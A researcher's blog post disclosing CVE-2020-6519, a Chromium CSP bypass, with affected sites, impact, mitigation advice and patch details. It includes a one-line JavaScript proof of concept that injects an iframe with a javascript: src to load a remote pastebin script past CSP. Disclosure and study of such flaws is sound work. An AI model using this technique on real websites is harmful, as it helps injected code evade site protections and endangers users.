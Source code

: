 ```yaml
---
enabled: true
layout: post
title: CVE-2020-6519 - Chromium 83 Zero Day Full CSP Bypass Cross Platforms
url: https://weizman.github.io/
date: 02/09/2020
description: Chromium 83 Zero Day Full CSP Bypass Cross Platforms
keywords: chromium, exploit, vulnerability, CSP, javascript, web, security
---
```


> tl;dr - This is the story of how I found and helped **Google** [patch](https://chromereleases.googleblog.com/2020/07/stable-channel-update-for-desktop.html#:\~:text=Gal%20Weizman%20(@WeizmanGal)%20of%20PerimeterX) a [**vulnerability in Chrome browser**](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) that could have allowed attackers to [**fully bypass CSP rules**](https://crbug.com/1064676) since Chrome 73 (March 2019), and how researching it taught me that today's CSP mechanism design is the reason **no one uses CSP correctly and therefore many of the biggest websites in the world are exposed to this vulnerability**.

### Bypassing CSP completely can be very bad..

I was extremely surprised when I discovered this vulnerability affecting [Chromium](https://www.chromium.org/) based browsers  - Chrome, Opera, Edge -  on Windows, Mac and Android that allowed attackers to fully bypass CSP rules on Chrome versions 73 (March 2019) through 83 (July 2020).

To better understand the magnitude of this vulnerability - the potentially impacted users are in the billions, with Chrome having over two billion users, and more than 65% of the browser market on one hand, and some of the most popular sites on the web being vulnerable to this CVE on the other hand.

Vulnerable sites included [Facebook](https://www.facebook.com/), [WellsFargo](https://www.wellsfargo.com/), [Gmail](https://gmail.com/) , [Zoom](https://zoom.us/), [Tiktok](https://www.tiktok.com/en/), [Instagram](https://instagram.com/), [WhatsApp](https://whatsapp.com/), [Investopedia](https://www.investopedia.com/), [ESPN](https://www.espn.com/), [Roblox](https://www.roblox.com/), [Indeed](https://www.indeed.com/), [Blogger](https://www.blogger.com/), [Quora](https://www.quora.com/) and more.

So what was the vulnerability exactly?

### Break CSP Down Completely With A One-Liner

You are more than welcome to check out the [POC files as disclosed to Google Chrome project](https://github.com/weizman/CVE-2020-6519/tree/master/POC) originally if you are interested in the exploit and in running it, but the following sum up should cover it mostly:

Normally, an attempt to run the following JS code will be blocked by the browser when the site’s CSP setting disallows the source or actions performed by the script:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will fail due to CSP */
var s = document.createElement("script"); s.src = top._CVE_URL; document.body.appendChild(s);
```

However, running the same JS code via `javascript:` src of an iframe will bypass completely the configured CSP on that website:

```javascript
/* this is a script that pops an alert message */
top._CVE_URL = 'https://pastebin.com/raw/dw5cWGK6';

/* this call will succeed although CSP */
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

**Simple yet very powerful!** Billions of browsers on any OS would have blindly allowed CSP privilege escalation for any unwanted code in a website:

![5](./content/img/5a.gif)

It is worth mentioning that some sites protected by CSP, like [Twitter](http://twitter.com/), [Github](http://github.com/), [LinkedIn](https://www.linkedin.com/), [Google Play Store](https://play.google.com), [Yahoo's Login Page](https://login.yahoo.com), [PayPal](https://paypal.com) and [Yandex](https://yandex.ru) were not vulnerable to [CVE-2020-6519](https://github.com/weizman/CVE-2020-6519/), as these implemented CSP using [nonce](https://content-security-policy.com/nonce/) or [hash](https://content-security-policy.com/hash/) and by that added a layer of security that is implemented on the server side as well as the client side.

### What is the potential impact?

[Content Security Policy (CSP)](https://content-security-policy.com/) is basically a set of rules set by the website that the browser's role here is to respect and enforce in the name of the website.

With these rules the website can ask the browser to block/allow specific request calls, specific types of javascript code execution and more, thus ensuring stronger security for site visitors and protecting them from potential injected malicious scripts or [cross-site-scripting (XSS)](https://owasp.org/www-community/attacks/xss/).

Having a vulnerability in Chrome’s CSP enforcement mechanism doesn’t directly mean that sites are breached, as the attackers also need to manage to get the malicious script called from the site (which is why the vulnerability was classified as medium severity).

However, having a vulnerability in a security mechanism that is trusted by websites to enforce stricter policies on 3rd party scripts has vast implications, as some of the largest sites rely on CSP to enforce their policy, and may give them the comfort of approving 3rd party scripts of vendors and partners thinking they are safe with a strict policy enforced.

Besides the sites mentioned above (representing more than 2.5 billion users), it is safe to estimate that thousands of websites across industries, including e-commerce, banking, telecommunications, government, and utilities were left unprotected from a scenario where hackers managed to inject malicious code into them.

### Why should we be worried about a vulnerability that is exploitable only when an attacker gained code execution on a website? In that case, bypassing CSP wouldn't make much of a difference..

I disagree.

It is extremely risky when a vulnerability is found in the security mechanism that prevents such breaches, as the impacted sites actively relied on CSP to provide the protection tier.

About 6 months ago I found a [persistent XSS in WhatsApp Web/Desktop applications and demonstrated the severity of this vulnerability](https://weizman.github.io/page-whatsapp-vuln/).

Part of the reason the severity was so high is because their CSP was misconfigured in such a way that allowed me to inject scripts that could communicate with any domain I wanted.

This is why. Finding ways to execute code on a website you don't control is indeed extremely difficult.
But once someone has, you'd wish your website had another layer of security that might stop them from causing real damage.

You can read all about this research right [here](https://weizman.github.io/page-whatsapp-vuln/).

### Test It Yourself

I was easily able to test all of those websites by creating a [simple script](https://github.com/weizman/CVE-2020-6519/blob/master/CVE-2020-6519-TEST-IT-YOURSELF.js) that when executed via the devtools console will let you know immediately whether the current browser/website is vulnerable to [CVE-2020-6519](https://nvd.nist.gov/vuln/detail/CVE-2020-6519) due to misconfigured CSP/Old Chrome or not. It does that by trying to load an external js script from [https://pastebin.com/raw/XpHsfXJQ](https://pastebin.com/raw/XpHsfXJQ) both normally and by trying to load the exploit as well:

> _Browser and Website are vulnerable_

![2](./content/img/2a.jpg)

> _Browser is vulnerable but Website is not_

![1](./content/img/1a.jpg)

> _Browser is not vulnerable_

![4](./content/img/4a.jpg)

### Advice For Website Owners And Users

**Ensure your CSP policies are well defined**

Consider adding additional layers of security such as [nonce](https://content-security-policy.com/nonce/)s or [hash](https://content-security-policy.com/hash/)s.
This will require some server-side implementation.

**CSP alone is not enough for most websites so, consider adding additional layers of security**

Consider JavaScript-based detection and monitoring of [Shadow Code for real-time mitigation of web page code injection](https://www.perimeterx.com/tech-blog/2020/shadow-code-what-is-it-and-why-should-you-care/).

**Make sure your Chrome browser version is 84 or higher.**

### About The Patch

This vulnerability was [patched](https://crbug.com/1064676) by the Chromium project on Chrome 84, was tagged as medium ([CVSS 6.5](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-6519&vector=AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N&version=3.1&source=NIST)) risk and was granted $3,000.
